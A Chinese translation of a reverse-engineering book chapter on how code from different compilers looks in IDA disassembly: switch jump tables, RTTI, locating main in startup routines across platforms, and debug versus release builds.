








# 第五部分。实际应用

# 第二十章。编译器个性


在这个阶段，如果我们已经正确地完成了我们的工作，你现在已经拥有了使用 IDA 有效使用的基本技能，更重要的是，能够按照你的意愿来操控它。下一步，年轻的跳蚤，是学习如何应对二进制（与 IDA 相反）向你投来的忍者飞镖。根据你盯着汇编语言的原因，你可能非常熟悉你所看到的内容，或者你可能永远不知道你将面临什么。如果你碰巧把所有的时间都花在检查使用 gcc 在 Linux 平台上编译的代码上，你可能会非常熟悉它生成的代码风格。另一方面，如果有人在你面前放下了一个使用 Microsoft Visual C++（VC++）编译的程序的调试版本，你可能会感到完全困惑。特别是恶意软件分析师面临着要检查的代码种类繁多。暂时不谈混淆的话题，恶意软件分析师可能会看到使用 Visual Basic、Delphi 和 Visual C/C++创建的代码；文档中嵌入的机器语言块；以及更多，这一切都在同一个下午发生。

在本章中，我们将简要地看看通过 IDA 的视角来看编译器之间的一些差异。我们的意图不是深入探讨为什么编译器会有差异；相反，我们希望涵盖一些这些差异如何在反汇编列表中体现，以及你如何解决这些差异。在其他方面，用于构建特定软件的编译器和相关选项构成了分析该软件作者的一个数据点。

尽管有各种各样的编译器可以用于各种语言，但在本章中，我们将主要使用编译后的 C 代码作为我们的示例，因为许多平台都有大量的 C 编译器可用。

# 跳转表和 switch 语句

C 的`switch`语句是编译器优化的常见目标。这些优化的目标是尽可能高效地匹配 switch 变量到一个有效的 case 标签。实现这一目标的方式通常取决于`switch`语句的情况标签的性质。当情况标签分布广泛时，如以下示例所示，大多数编译器会生成代码以执行二分搜索^([140))来匹配 switch 变量与其中一个情况。

```
switch (value) {
   case 1:
      //code executed when value == 1
      break;
   case 211:
      //code executed when value == 211
      break;
   case 295:
      //code executed when value == 295
      break;
   case 462:
      //code executed when value == 462
      break;
   case 1093:
      //code executed when value == 1093
      break;
   case 1839:
      //code executed when value == 1839
      break;
}
```

当情况标签紧密聚集时，最好是像这里显示的按顺序聚集，编译器通常通过执行表查找^([141])来解析 switch 变量，以匹配 switch 变量与其关联的情况的地址。

```
switch (value) {
   case 1:
      //code executed when value == 1
      break;
   case 2:
      //code executed when value == 2
      break;
   case 3:
      //code executed when value == 3
      break;
   case 4:
      //code executed when value == 4
      break;
   case 5:
      //code executed when value == 5
      break;
   case 6:
      //code executed when value == 6
      break;
}
```

这里展示了匹配 switch 变量与连续情况 1 到 12 的`switch`语句的编译示例：

```
.text:00401155         mov     edx, [ebp+arg_0]
 .text:00401158         cmp     edx, 0Ch        ; switch 13 cases
  .text:0040115B         ja    loc_4011F1      ; default
  .text:0040115B                                   ; jumptable 00401161 case 0
  .text:00401161         jmp     ds:off_401168[edx*4] ; switch jump
  .text:00401161 ; ---------------------------------------------------------------
 .text:00401168 off_401168 dd offset loc_4011F1
  ; DATA XREF: sub_401150+11↑r
  .text:00401168         dd offset loc_40119C ; jump table for switch statement
  .text:00401168         dd offset loc_4011A1
  .text:00401168         dd offset loc_4011A6
  .text:00401168         dd offset loc_4011AB
  .text:00401168         dd offset loc_4011B3
  .text:00401168         dd offset loc_4011BB
  .text:00401168         dd offset loc_4011C3
  .text:00401168         dd offset loc_4011CB
  .text:00401168         dd offset loc_4011D3
  .text:00401168         dd offset loc_4011DB
  .text:00401168         dd offset loc_4011E3
  .text:00401168         dd offset loc_4011EB
  .text:0040119C ; ---------------------------------------------------------------
  .text:0040119C
  .text:0040119C loc_40119C:                 ; CODE XREF: sub_401150+11↑j
  .text:0040119C                             ; DATA XREF: sub_401150:off_401168↑o
 .text:0040119C         mov     eax, [ebp+arg_4] ; jumptable 00401161 case 1
```

此示例使用 Borland 命令行编译器编译，IDA 非常了解。IDA 在分析阶段插入的注释表明，IDA 清楚地理解这是一个`switch`语句。在这个例子中，我们注意到 IDA 识别了代码中的跳转测试 ，跳转表 ，以及通过值识别的单独案例 。

关于使用跳转表来解决`switch`案例的附加说明，请注意，前一个示例中的表包含 13 个条目，而`switch`语句已知仅测试案例 1 到 12。在这种情况下，编译器选择包含一个针对案例 0 的条目，而不是将 0 视为特殊案例。案例 0 的目标与 1 到 12 范围之外的所有其他值的目标相同  。

最后一个实现注意事项是关于对`switch`变量进行的测试的性质。对于不太熟悉 x86 指令集的读者来说，测试  和后续行中相关的跳转可能看起来只是排除了大于 12 的值，而没有考虑到负值。如果这是真的，那么可能会造成灾难性的后果，因为使用跳转表中的负索引可能会导致意外的后果。幸运的是，`ja`（跳转以上）指令将比较视为在无符号值上执行；因此 `-1` (`0xFFFFFFFF`) 会被视为 `4294967295`，这比 12 大得多，因此被排除在跳转表索引的有效范围之外。

使用 Microsoft Visual C++编译的相同源代码导致以下反汇编列表：

```
.text:004013D5             mov     ecx, [ebp+var_8]
  .text:004013D8        sub     ecx, 1
  .text:004013DB              mov     [ebp+var_8], ecx
  .text:004013DE              cmp     [ebp+var_8], 0Bh ; switch 12 cases
  .text:004013E2             ja      loc_40146E      ; jumptable 004013EB default case
  .text:004013E8             mov     edx, [ebp+var_8]
  .text:004013EB             jmp     ds:off_401478[edx*4] ; switch jump
  .text:004013F2
 .text:004013F2 loc_4013F2:                          ; DATA XREF:
  .text:off_401478?o
  .text:004013F2             mov     eax, [ebp+arg_4] ; jumptable 004013EB 
case 0
  ... ; REMAINDER OF FUNCTION EXCLUDED FOR BREVITY
  .text:00401477            retn
  .text:00401477 sub_4013B0 endp
  .text:00401477 ; -------------------------------------------------------------
 .text:00401478 off_401478 dd offset 
loc_4013F2  ; DATA XREF: sub_4013B0+3B↓r
  .text:00401478            dd offset loc_4013FA  ; jump table for switch statement
  .text:00401478            dd offset loc_401402
  .text:00401478            dd offset loc_40140A
  .text:00401478            dd offset loc_401415
  .text:00401478            dd offset loc_401420
  .text:00401478            dd offset loc_40142B
  .text:00401478            dd offset loc_401436
  .text:00401478            dd offset loc_401441
  .text:00401478            dd offset loc_40144C
  .text:00401478            dd offset loc_401458
  .text:00401478            dd offset loc_401464
```

与 Borland 编译器生成的代码相比，有几个明显的差异。一个明显的差异是跳转表已经被移动到包含`switch`语句的函数之后的立即空间（与 Borland 代码中将跳转表嵌入函数本身的情况相反）。除了提供代码和数据之间更清晰的分离之外，以这种方式重新定位跳转表对程序的行为影响很小。尽管代码布局不同，IDA 仍然能够注释`switch`语句的关键特性，包括案例数量以及与每个案例关联的代码块。

`switch`语句的实现细节中包括这样一个事实，即 switch 变量（在这个例子中是`var_8`）被递减以将有效值的范围移至 0 到 11，从而使变量可以直接用作跳转表的索引，无需为未使用的 case 0 创建一个虚拟槽位。因此，跳转表中的第一个条目（或零索引条目）实际上指的是 switch case 1 的代码。

最后，我们将比较`switch`语句的 gcc 生成的以下代码：

```
.text:004011FA          cmp     [ebp+arg_0], 0Ch ; switch 13 cases
  .text:004011FE              ja  loc_40129D      ; jumptable 00401210 case 0
  .text:00401204              mov     eax, [ebp+arg_0]
  .text:00401207              shl     eax, 2
  .text:0040120A         mov     eax,  ds:off_402010[eax]
  .text:00401210         jmp     eax             ; switch jump
  .text:00401212
  .text:00401212  loc_401212:                          ; DATA XREF:
  .rdata:off_402010 o
  .text:00401212        mov     eax, [ebp+arg_4] ; jumptable 00401210 case 1
  ... ; REMAINDER OF .text SECTION EXCLUDED FOR BREVITY
 .rdata:00402010 off_402010  dd offset 
loc_40129D   ; DATA XREF: sub_4011ED+1D↑r
  .rdata:00402010            dd offset 
loc_401212   ; jump table for switch statement
  .rdata:00402010            dd offset loc_40121D
  .rdata:00402010            dd offset loc_401225
  .rdata:00402010            dd offset loc_40122D
  .rdata:00402010            dd offset loc_40123C
  .rdata:00402010            dd offset loc_40124B
  .rdata:00402010            dd offset loc_40125A
  .rdata:00402010            dd offset loc_401265
  .rdata:00402010            dd offset loc_401270
  .rdata:00402010            dd offset loc_40127B
  .rdata:00402010            dd offset loc_401287
  .rdata:00402010            dd offset loc_401293
```

这段代码与 Borland 代码有一些相似之处，这可以从与 12的比较中看出，包含 13 个条目的跳转表，以及在跳转表的 case 0 槽位中使用指向默认情况的指针。与 Borland 代码一样，case 1 处理器的地址可以在跳转表的索引 1 处找到。gcc 代码与之前的示例之间的显著差异包括执行跳转的不同风格以及跳转表存储在二进制的只读数据（`.rdata`）部分，在`switch`语句的代码和数据之间提供了逻辑上的分离。与其他两个示例一样，IDA 能够定位并注释 switch 语句的关键元素。

我们在这里要强调的一个观点是，将源代码编译成汇编代码并没有一种唯一正确的方法。熟悉特定编译器生成的代码并不能保证您能识别出完全使用不同编译器（甚至同一编译器家族的不同版本）编译的高级结构。更重要的是，不要仅仅因为 IDA 未能添加相应的注释就假设某项内容不是`switch`语句。与您一样，IDA 对某些编译器的输出比对其他编译器的输出更熟悉。与其完全依赖 IDA 的分析能力来识别常用的代码和数据结构，您应该始终准备好利用自己的技能——您对特定汇编语言的熟悉程度、对编译器的了解以及您的研究能力——来正确解释反汇编代码。

* * *

^([140]) 对于喜欢算法分析的您来说，这意味着 switch 变量最多经过 log-2*N*次操作后就能匹配，其中*N*是`switch`语句中包含的 case 数量。

^([141]) 对于在家分析算法的读者来说，使用表查找可以在一次操作中找到目标情况，你可能还记得，在算法课程中这被称为 *常数时间* 或 *O(1)*。

# RTTI 实现

在 第八章 中，我们讨论了 C++ 运行时类型识别（RTTI）以及没有标准存在来规定编译器如何实现 RTTI 的实现方式。在二进制文件中自动识别 RTTI 相关结构是 IDA 功能随编译器而变化的另一个领域。不出所料，IDA 在这个领域的功能在用 Borland 编译器编译的二进制文件中是最强的。对自动识别 Microsoft RTTI 数据结构感兴趣的读者可以尝试在 IDA Palace 上可用的 Igor Skochinsky 的 IDC 脚本^([142]) 或 Sirmabus 的 Class Informer 插件^([143]），这些将在 第二十三章 中进一步讨论。

理解特定编译器如何为 C++ 类嵌入类型信息的简单策略是编写一个使用包含虚拟函数的类的基本程序。编译程序后，你可以将生成的可执行文件加载到 IDA 中，并搜索包含程序中使用的类名的字符串实例。无论使用哪种编译器构建二进制文件，RTTI 数据结构都具有一个共同点，即它们都包含一个指向表示其类名的字符串的指针。使用数据交叉引用，应该能够定位到这样一个字符串的指针，从而定位候选 RTTI 数据结构。最后一步是将候选 RTTI 结构链接回相关类的 vtable，这最好通过从候选 RTTI 结构反向跟踪数据交叉引用，直到到达函数指针表（vtable）来实现。

* * *

^([142]) 见 [`old.idapalace.net/idc/ms_rtti.zip`](http://old.idapalace.net/idc/ms_rtti.zip)。

^([143]) 见 [`www.openrce.org/blog/browse/Sirmabus`](http://www.openrce.org/blog/browse/Sirmabus)。

# 定位 main

如果你很幸运，可以获取你想要分析的一个 C/C++ 程序的源代码，分析的开始可能从 `main` 函数开始，因为这是执行概念上开始的地方。当面对分析二进制文件时，这是一个不错的策略。然而，正如我们所知，由于编译器/链接器（以及库的使用）在达到 `main` 之前添加了额外的代码，这使得分析变得复杂。因此，通常假设二进制文件的入口点对应于程序作者编写的 `main` 函数是不正确的。

事实上，所有程序都有一个`main`函数的观念是 C/C++编译器的惯例，而不是编写程序的硬性规则。如果你曾经编写过 Windows GUI 应用程序，那么你可能对`main`的`WinMain`变体很熟悉。一旦你离开 C/C++，你会发现其他语言为它们的入口点函数使用其他名称。无论它被称为什么，我们都会泛称这个函数为`main`函数。

第十二章介绍了 IDA 签名文件的概念、它们的生成及其应用。IDA 使用特殊的启动签名来尝试识别程序的`main`函数。当 IDA 能够将二进制文件的启动序列与签名文件中的某个启动序列相匹配时，IDA 可以根据对匹配启动例程行为的理解来定位程序的`main`函数。这很好，直到 IDA 无法将二进制文件的启动序列与任何已知的签名相匹配。一般来说，程序的启动代码与生成代码的编译器和代码构建的平台紧密相关。

回想一下第十二章中提到的，启动签名被分组并存储在针对二进制文件类型的特定签名文件中。例如，用于 PE 加载器的启动签名存储在`pe.sig`中，而用于 MS-DOS 加载器的启动签名存储在`exe.sig`中。对于给定的二进制文件类型存在签名文件并不能保证 IDA 能够 100%地识别程序的`main`函数。有太多的编译器，启动序列变化太快，以至于 IDA 无法携带所有可能的签名。

对于许多文件类型，如 ELF 和 Mach-O，IDA 根本不包含任何启动签名。最终结果是，IDA 无法使用签名在 ELF 二进制文件中定位`main`函数（尽管如果函数被命名为`main`，它将被找到）。

本讨论的目的是让你为这样一个事实做好准备，即有时你将不得不自己寻找程序的`main`函数。在这种情况下，拥有一些理解程序本身如何为调用`main`做准备的战略是有用的。例如，考虑一个被一定程度混淆的二进制文件。在这种情况下，IDA 肯定无法匹配启动签名，因为启动例程本身已经被混淆。如果你设法以某种方式去混淆二进制文件（这是第二十一章的主题），你将不仅需要自己找到`main`，还需要找到原始的启动例程。

对于具有传统 `main` 函数的 C 和 C++ 程序，^([144]) 启动代码的一个职责是设置 `main` 所需的堆栈参数，整数 `argc`（命令行参数的数量），字符指针数组 `argv`（包含命令行参数的字符串指针数组），以及字符指针数组 `envp`（包含在程序调用时设置的环境变量的字符串指针数组）。以下是从 FreeBSD 8.0 动态链接、去除了符号的二进制文件中摘录的内容，展示了 gcc 生成的启动代码如何在 FreeBSD 系统上调用 `main`：

```
.text:08048365          mov     dword ptr [esp], offset _term_proc ; func
.text:0804836C        call    _atexit
.text:08048371        call    _init_proc
.text:08048376          lea     eax, [ebp+arg_0]
.text:08048379          mov     [esp+8], esi
.text:0804837D          mov     [esp+4], eax
.text:08048381          mov     [esp], ebx
.text:08048384        call    sub_8048400
.text:08048389        mov     [esp], eax      ; status
.text:0804838C        call    _exit
```

在这种情况下，对 `sub_8048400` 的调用  实际上是调用 `main`。这段代码在许多启动序列中很典型，因为在调用 `main` 之前有对初始化函数的调用（`_atexit`  和 `_init_proc` ），而在从 `main` 返回后有一个对 `_exit`  的调用。对 `_exit` 的调用确保在 `main` 执行返回而不是调用 `_exit` 本身时程序能够干净地终止。注意，传递给 `_exit`  的参数是 EAX 寄存器中 `main` 返回的值；因此，程序的退出代码是 `main` 的返回值。

如果前面的程序是静态链接并去除了符号的，则启动例程的结构将与前面的示例相同；然而，库函数将没有有用的名称。在这种情况下，`main` 函数将继续作为唯一一个以三个参数调用的函数而突出。当然，尽早应用 FLIRT 签名也有助于恢复许多库函数的名称，并使 `main` 函数像前面示例中那样突出。

为了证明相同的编译器在不同的平台上运行时可能会生成完全不同的代码风格，考虑以下示例，它也是使用 gcc 创建的，是从 Linux 系统中提取的动态链接、去除了符号的二进制文件：

```
.text:080482B0 start           proc near
.text:080482B0                 xor     ebp, ebp
.text:080482B2                 pop     esi
.text:080482B3                 mov     ecx, esp
.text:080482B5                 and     esp, 0FFFFFFF0h
.text:080482B8                 push    eax
.text:080482B9                 push    esp
.text:080482BA                 push    edx
.text:080482BB                push    offset sub_80483C0
.text:080482C0                push    offset sub_80483D0
.text:080482C5                 push    ecx
.text:080482C6                 push    esi
.text:080482C7                push    offset loc_8048384
.text:080482CC                 call    ___libc_start_main
.text:080482D1                 hlt
.text:080482D1 start           endp
```

在这个例子中，`start` 函数仅调用一次 `___libc_start_main`。`___libc_start_main` 的目的是执行与前面 FreeBSD 示例中相同的所有类型任务，包括调用 `main` 和最终 `exit`。由于 `___libc_start_main` 是一个库函数，我们知道它知道 `main` 实际位置的唯一方式是通过其参数之一（似乎有八个参数）。显然，其中两个参数  和  是函数指针，而第三个  是 `.text` 部分内的位置指针。前述列表中几乎没有关于哪个函数可能是 `main` 的线索，因此你可能需要分析三个潜在位置处的代码，以正确定位 `main`。这可能是一项有用的练习；然而，你可能更愿意简单地记住，`___libc_start_main` 的第一个参数（位于栈顶，因此是最后压入的）实际上是指向 `main` 的指针。有两个因素结合在一起阻止 IDA 将 `loc_8048384` 识别为函数（这将命名为 `sub_8048384`）。第一个因素是函数从未被直接调用，因此 `loc_8048384` 从未出现在调用指令的目标中。第二个因素是尽管 IDA 包含基于其前缀识别函数的启发式方法（这就是为什么 `sub_80483C0` 和 `sub_80483D0` 被识别为函数，尽管它们也从未被直接调用），但 `loc_8048384` 处的函数（`main`）没有使用 IDA 识别的前缀。有问题的前缀（带注释）如下所示：

```
.text:08048384 loc_8048384:                       ; DATA XREF: start+17↑o
.text:08048384          lea     ecx, [esp+4]       ; address of arg_0 into ecx
.text:08048388          and     esp, 0FFFFFFF0h    ; 16 byte align esp
.text:0804838B          push    dword ptr [ecx-4]  ; push copy of return address
.text:0804838E         push    ebp                ; save caller's ebp
.text:0804838F         mov
ebp, esp           ; initialize our frame pointer
.text:08048391          push    ecx                ; save ecx
.text:08048392         sub     esp, 24h           ; allocate locals
```

这个前缀明显包含了一个使用 EBP 作为帧指针的函数的传统前缀元素。在设置当前函数的帧指针  并最终为局部变量分配空间  之前，保存了调用者的帧指针 。对于 IDA 来说，问题在于这些操作不是在函数中的第一个动作，因此 IDA 的启发式方法失败了。在这个时候手动创建一个函数（编辑 ▸ 函数 ▸ 创建函数）是一个简单的问题，但你应该注意监控 IDA 的行为。就像它最初未能识别函数一样，它可能未能识别出该函数使用 EBP 作为帧指针的事实。在这种情况下，你需要编辑函数（alt-P），以强制 IDA 相信该函数有一个 *基于 BP 的帧*，并且还需要调整分配给保存寄存器和局部变量的栈字节数。

就像 FreeBSD 的二进制文件一样，如果前面的 Linux 示例既静态链接又剥离，启动例程将不会发生任何变化，除了`___libc_start_main`的名称将缺失。你仍然可以通过记住 gcc 的 Linux 启动例程只调用一个函数，并且该函数的第一个参数是`main`的地址来定位`main`。

在 Windows 这边，使用的 C/C++编译器（因此是启动例程）的数量要高一些。也许不出所料，在 Windows 上的 gcc，可以借助在其他平台上研究 gcc 行为获得的一些知识。下面显示的是 gcc/Cygwin 二进制文件的启动例程：

```
.text:00401000 start     proc near
.text:00401000
.text:00401000 var_28    = dword ptr −28h
.text:00401000 var_24    = dword ptr −24h
.text:00401000 var_20    = dword ptr −20h
.text:00401000 var_2     = word ptr −2
.text:00401000
.text:00401000           push    ebp
.text:00401001           mov     ebp, esp
.text:00401003           sub     esp, 28h
.text:00401006           and     esp, 0FFFFFFF0h
.text:00401009           fnstcw  [ebp+var_2]
.text:0040100C           movzx   eax, [ebp+var_2]
.text:00401010           and     ax, 0F0C0h
.text:00401014           mov     [ebp+var_2], ax
.text:00401018           movzx   eax, [ebp+var_2]
.text:0040101C           or      ax, 33Fh
.text:00401020           mov     [ebp+var_2], ax
.text:00401024           fldcw   [ebp+var_2]
.text:00401027          mov     [esp+28h+var_28], offset sub_4010B0
.text:0040102E          call    sub_401120
```

显然，这段代码与基于 Linux 的先前的例子没有直接映射。然而，有一个显著的相似之处：只调用了一个函数，该函数接受一个函数指针作为参数。在这种情况下，`sub_401120`起着与`___libc_start_main`相同的作用，而`sub_4010B0`最终成为程序的`main`函数。

使用 gcc/MinGW 编译的 Windows 二进制文件使用另一种样式的`start`函数，如下所示：

```
.text:00401280 start           proc near
.text:00401280
.text:00401280 var_8           = dword ptr −8
.text:00401280
.text:00401280                 push    ebp
.text:00401281                 mov     ebp, esp
.text:00401283                 sub     esp, 8
.text:00401286                 mov     [esp+8+var_8], 1
.text:0040128D                 call    ds:__set_app_type
.text:00401293                call    sub_401150
.text:00401293 start           endp
```

这又是 IDA 无法识别程序`main`函数的另一个例子。前面的代码对`main`的位置提供很少的线索，因为只有一个非库函数被调用（`sub_401150`），而这个函数似乎没有接受任何参数（就像`main`应该做的那样）。在这种情况下，最好的做法是在`sub_401150`中继续寻找`main`。以下是`sub_401150`的一部分：

```
.text:0040122A                 call    __p__environ
.text:0040122F                 mov     eax, [eax]
.text:00401231                mov     [esp+8], eax
.text:00401235                 mov     eax, ds:dword_404000
.text:0040123A                mov     [esp+4], eax
.text:0040123E                 mov     eax, ds:dword_404004
.text:00401243                mov     [esp], eax
.text:00401246                call    sub_401395
.text:0040124B                 mov     ebx, eax
.text:0040124D                 call    _cexit
.text:00401252                 mov     [esp], ebx
.text:00401255                 call    ExitProcess
```

在这个例子中，该函数与我们在前面看到的与 FreeBSD 相关的`start`函数有许多相似之处。通过排除法，我们可以将`sub_401395`视为`main`的可能候选，因为它是有三个参数——、和与`__p__environ`库函数的返回值相关，这与`main`的第三个参数预期为环境字符串数组指针的事实很好地相符。示例代码之前还有一个对`getmainargs`库函数的调用（未显示），该函数在调用`main`之前设置`argc`和`argv`参数。这有助于加强`main`即将被调用的观念。

Visual C/C++代码的启动例程简短而清晰，如下所示：

```
.text:0040134B start           proc near
.text:0040134B                 call    ___security_init_cookie
.text:00401350                 jmp     ___tmainCRTStartup
.text:00401350 start           endp
```

IDA 实际上是通过应用启动签名而不是通过程序链接到包含给定符号的动态库的事实来识别这两条指令中引用的库例程。IDA 的启动签名提供了轻松定位对 `main` 的初始调用的方法，如下所示：

```
.text:004012D8                 mov     eax, envp
.text:004012DD                 mov     dword_40ACF4, eax
.text:004012E2                 push    eax             ; envp
.text:004012E3                 push    argv            ; argv
.text:004012E9                 push    argc            ; argc
.text:004012EF                call    _main
.text:004012F4                 add     esp, 0Ch
.text:004012F7                 mov     [ebp+var_1C], eax
.text:004012FA                 cmp     [ebp+var_20], 0
.text:004012FE                 jnz     short $LN35
.text:00401300                 push    eax             ; uExitCode
.text:00401301                 call    $LN27
.text:00401306 $LN35:                      ; CODE XREF: ___tmainCRTStartup+169âj
.text:00401306                 call    __cexit
.text:0040130B                 jmp     short loc_40133B
```

在 `tmainCRTStartup` 的整个主体中，`_main` 是唯一一个带有三个精确参数的函数。进一步分析将揭示对 `_main` 的调用之前有一个对 `GetCommandLine` 库函数的调用，这又是程序 `main` 函数可能很快被调用的另一个迹象。关于启动签名的使用，重要的是要理解，在这个例子中，IDA 完全根据匹配启动签名自行生成了 `_main` 这个名称。ASCII 字符串 `main` 在这个例子使用的二进制文件中根本不存在。因此，你可以预期，每当匹配到启动签名时，`main` 都会被找到并标记，即使二进制文件已经去除了其符号。

我们将要检查的最后一个 C 编译器的启动例程是由 Borland 的免费命令行编译器生成的。^([145]) Borland 启动例程的最后几行如下所示：

```
.text:00401041                push    offset off_4090B8
.text:00401046                 push    0               ; lpModuleName
.text:00401048                 call    GetModuleHandleA
.text:0040104D                 mov     dword_409117, eax
.text:00401052                 push    0          ; fake return value
.text:00401054                 jmp     __startup
```

压入堆栈的指针值  指向一个结构，该结构反过来又包含一个指向 `main` 的指针。在 `__startup` 中，调用 `main` 的设置如下所示：

```
.text:00406997                 mov     edx, dword_40BBFC
.text:0040699D                push    edx
.text:0040699E                 mov     ecx, dword_40BBF8
.text:004069A4                push    ecx
.text:004069A5                 mov     eax, dword_40BBF4
.text:004069AA                push    eax
.text:004069AB                call    dword ptr [esi+18h]
.text:004069AE                 add     esp, 0Ch
.text:004069B1                 push    eax             ; status
.text:004069B2                 call    _exit
```

同样，这个例子与之前的例子有很多相似之处，即对 `main` 的调用  带有三个参数 、 和 （在 `__startup` 中唯一被调用的函数）并且返回值直接传递给 `_exit` 以终止程序。对 `__startup` 的进一步分析将揭示对 Windows API 函数 `GetEnvironmentStrings` 和 `GetCommandLine` 的调用，这些通常是调用 `main` 的先兆。

最后，为了证明追踪程序的 `main` 函数并不是 C 程序特有的问题，考虑以下从编译后的 Visual Basic 6.0 程序中提取的启动代码：

```
.text:004018A4 start:
.text:004018A4               push    offset dword_401994
.text:004018A9               call    ThunRTMain
```

`ThunRTMain` 库函数执行的功能类似于 Linux 中的 `libc_start_main` 函数，其任务是执行在调用程序的实际 `main` 函数之前所需的任何初始化操作。为了将控制权传递给 `main` 函数，Visual Basic 使用了一种与早期示例中 Borland 代码中非常相似的机制。`ThunRTMain` 接收一个单一参数 ，这是一个指向包含程序初始化所需额外信息的结构的指针，包括 `main` 函数的地址。该结构的内容如下所示：

```
.text:00401994 dword_401994    dd 21354256h, 2A1FF0h,
 3 dup(0) ; DATA XREF: .text:start↑o
.text:004019A8                 dd 7Eh, 2 dup(0)
.text:004019B4                 dd 0A0000h, 409h, 0
.text:004019C0                dd offset sub_4045D0
.text:004019C4                 dd offset dword_401A1C
.text:004019C8                 dd 30F012h, 0FFFFFF00h, 8, 2
 dup(1), 0E9h, 401944h, 4018ECh
.text:004019C8                 dd 4018B0h, 78h, 7Dh, 82h, 83h, 4 dup(0)
```

在此数据结构中，只有一个项目  看起来似乎引用了代码，即指向 `sub_4045D0` 的指针，结果证明这是程序的 `main` 函数。

最后，学习如何找到 `main` 是理解可执行文件构建过程的问题。在遇到困难的情况下，使用构建你正在分析的二进制文件相同的工具构建一些简单的可执行文件（例如，在 `main` 中包含一个易于识别的字符串）可能是有益的。通过研究你的测试用例，你将了解使用特定工具集构建的二进制文件的基本结构，这可能有助于你进一步分析使用相同工具集构建的更复杂的二进制文件。

* * *

^([144]) Windows GUI 应用程序需要 `WinMain` 函数而不是 `main`。有关 `WinMain` 的文档可以在此处找到：[`msdn2.microsoft.com/en-us/library/ms633559.aspx`](http://msdn2.microsoft.com/en-us/library/ms633559.aspx)。

^([145]) 请参阅 [`forms.embarcadero.com/forms/BCC32CompilerDownload/`](http://forms.embarcadero.com/forms/BCC32CompilerDownload/)。

# 调试版本与发布版本二进制文件的区别

Microsoft 的 Visual Studio 项目通常能够构建程序的调试或发布版本。一种区分这两种版本的方法是对比项目调试版本的构建选项与发布版本的构建选项。简单的区别包括发布版本通常经过优化，^([146]），而调试版本则没有，调试版本与包含附加符号信息和调试版本的运行时库链接，而发布版本则不是。调试相关符号的添加允许调试器将汇编语言语句映射回其源代码对应项，并确定局部变量的名称.^([147）此类信息通常在编译过程中丢失。Microsoft 的运行时库的调试版本也包含调试符号，禁用优化，并启用额外的安全检查以验证某些函数参数是否有效。

当使用 IDA 反汇编时，Visual Studio 项目的调试构建与发布构建看起来显著不同。这是由于仅在调试构建中指定的编译器和链接器选项的结果，例如基本的运行时检查 (/RTCx^([148]))，这些检查会在生成的二进制文件中引入额外的代码。这些额外代码的副作用是它破坏了 IDA 的启动签名匹配过程，导致 IDA 在二进制文件的调试构建中频繁无法自动定位 `main` 函数。

你可能在二进制文件的调试构建中注意到的第一个差异是，几乎所有函数都是通过 *跳转* 函数（也称为 *thunk* 函数）到达的，如下面的代码片段所示：

```
 .text:00411050
 sub_411050      proc near               ; CODE XREF: start_0+3↓p
  .text:00411050                jmp     sub_412AE0
   .text:00411050 sub_411050     endp
  ...
 .text:0041110E start           proc near
    .text:0041110E                jmp     start_0
  .text:0041110E start           endp
  ...
 .text:00411920 start_0         proc near               ; CODE XREF: start↑j
  .text:00411920                 push    ebp
  .text:00411921                 mov     ebp, esp
  .text:00411923                call    sub_411050
  .text:00411928                 call    sub_411940
  .text:0041192D                 pop     ebp
  .text:0041192E                 retn
  .text:0041192E start_0         endp
```

在本例中，程序入口点  除了跳转到实际的启动函数  外，什么都不做。启动函数反过来调用  另一个函数 ，该函数只是简单地跳转到该函数的实际实现。包含仅有一个跳转语句的两个函数  和  被称为 *thunk* 函数。在调试二进制文件中大量使用 thunk 函数是 IDA 签名匹配过程的一个障碍。虽然 thunk 函数的存在可能会暂时减慢你的分析速度，但使用前一小节中描述的技术，仍然可以追踪到二进制文件的 `main` 函数。

调试构建中的基本运行时检查会在进入任何函数时执行几个额外的操作。以下是一个调试构建中扩展前导部分的示例：

```
.text:00411500                 push    ebp
.text:00411501                 mov     ebp, esp
.text:00411503                sub     esp, 0F0h
.text:00411509                 push    ebx
.text:0041150A                 push    esi
.text:0041150B                 push    edi
.text:0041150C                lea     edi, [ebp+var_F0]
.text:00411512                 mov     ecx, 3Ch
.text:00411517                 mov     eax, 0CCCCCCCCh
.text:0041151C                 rep stosd
.text:0041151E                mov     [ebp+var_8], 0
.text:00411525                 mov     [ebp+var_14], 1
.text:0041152C                 mov     [ebp+var_20], 2
.text:00411533                 mov     [ebp+var_2C], 3
```

